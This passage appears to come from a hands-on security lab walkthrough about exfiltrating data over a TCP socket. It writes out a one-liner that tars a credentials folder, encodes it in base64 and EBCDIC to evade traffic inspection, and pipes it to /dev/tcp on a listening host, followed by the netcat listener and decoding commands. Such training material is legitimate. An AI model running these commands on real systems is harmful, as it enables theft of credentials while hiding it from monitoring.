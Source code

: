 Now that we have the credential text file, we will use the TCP socket to exfiltrate it. Make sure the listener is running on the JumpBox.

```
Exfiltrate Data over TCP Socket from the victim machine!

           
			
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s

	    
```

Let's break down the previous command and explain it:

    We used the tar command to create an archive file with the zcf arguments of the content of the secret directory.
    The z is for using gzip to compress the selected folder, the c is for creating a new archive, and the f is for using an archive file.
    We then passed the created tar file to the base64 command for converting it to base64 representation.
    Then, we passed the result of the base64 command to create and copy a backup file with the dd command using EBCDIC encoding data.
    Finally, we redirect the dd command's output to transfer it using the TCP socket on the specified IP and port, which in this case, port 8080.

Note that we used the Base64 and EBCDIC encoding to protect the data during the exfiltration. If someone inspects the traffic, it would be in a non-human readable format and wouldn't reveal the transmitted file type.

Once we hit enter, we should receive the encoded data in the /tmp/ directory.

```
Checking the received data on the JumpBox 

           
			
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 192.168.0.101 received!

thm@jump-box$ ls -l /tmp/
-rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data

	    
```

On the JumpBox, we need to convert the received data back to its original status. We will be using the dd tool to convert it back. 

```
Restoring the tar file

           
			
thm@jump-box$ cd /tmp/
thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
0+1 records in
0+1 records out
260 bytes transferred in 0.000321 secs (810192 bytes/sec)

	    
```
